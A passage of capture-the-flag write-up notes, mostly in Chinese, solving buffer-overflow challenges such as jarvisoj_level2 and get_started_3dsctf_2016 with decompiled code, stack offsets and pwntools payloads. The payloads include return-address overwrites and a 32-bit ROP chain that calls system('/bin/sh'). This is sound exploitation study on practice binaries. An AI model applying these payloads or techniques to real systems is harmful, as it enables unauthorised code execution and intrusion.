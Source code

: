 buf距离rbp为0x80=128字节，read写入200字节，缓冲区溢出；rbp大小为8；callsystem函数地址为0x400596

```
payload = b'a'*136 + p64(0x400596)
```

## jarvisoj_level2

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}
```

明显的缓冲区溢出，无直接调用`system("/bin/sh")`但有`system()`函数地址0x0804a020，String view看到`"/bin/sh"`的地址0x0804a024，构造32位rop

`payload = b'a'*(0x88+4) + p32(0x8048320) + b'c'*4 + p32(0x0804a024)`

## get_started_3dsctf_2016

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[56]; // [esp+4h] [ebp-38h] BYREF

  printf("Qual a palavrinha magica? ", v4[0]);
  gets(v4);
  return 0;
}
```

`gets()`缓冲区溢出，通过String view看到`"flag.txt"`，Jump to xref to operand，发现了一个`get_flag(a1, a2)`函数（0x80489a0）输出文件的内容

```c
void __cdecl get_flag(int a1, int a2)
{
  //...
  if ( a1 == 0x308CD64F && a2 == 0x195719D1 )
  {
    // Print file flag.txt
    //...
  }
}
```

构造32位rop，`get_flag(814536271, 425138641)`即可

注意：1.本题中的函数调用开头没有`push ebp`（这是编译器偏好决定的，只要栈的信息能够保存就可以了），故不用覆盖；2.`get_flag()`函数输出时不会清空`stdout`的缓冲区，需要正常退出，即返回到`exit()`（0x804e6a0）才能看到输出
